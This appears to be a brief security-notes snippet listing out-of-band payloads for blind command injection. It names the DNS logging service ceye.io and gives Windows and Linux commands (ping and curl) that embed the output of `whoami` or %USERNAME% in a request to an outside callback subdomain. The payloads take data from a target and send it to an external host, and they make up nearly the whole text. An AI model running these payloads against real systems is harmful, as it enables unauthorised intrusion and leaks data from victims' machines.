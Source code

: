dns平台：http://ceye.io/records/http



```php
windows:
payload:ping %USERNAME%.b182oj.ceye.io

linux:
payload:
curl http://ip.port.b182oj.ceye.io/`whoami`
ping `whoami`.ip.port.b182oj.ceye.io
```

